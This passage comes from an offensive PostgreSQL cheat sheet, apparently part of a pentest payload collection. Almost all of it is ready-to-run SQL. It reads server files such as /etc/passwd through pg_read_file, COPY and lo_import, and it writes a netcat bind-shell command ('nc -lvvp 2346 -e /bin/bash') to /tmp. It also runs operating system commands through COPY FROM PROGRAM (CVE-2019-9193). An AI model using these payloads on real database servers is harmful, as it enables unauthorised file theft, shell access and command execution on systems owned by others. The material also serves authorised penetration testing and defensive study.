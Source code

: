 ```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: Earlier versions of Postgres did not accept absolute paths in `pg_read_file` or `pg_ls_dir`. Newer versions (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the `default_role_read_server_files` group.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

```sql
SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
SELECT lo_get(16420); -- use the OID returned from the above
SELECT * from pg_largeobject; -- or just get all the large objects and their data
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

Or as one line:
```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

## PostgreSQL Command execution

### CVE-2019–9193

Can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
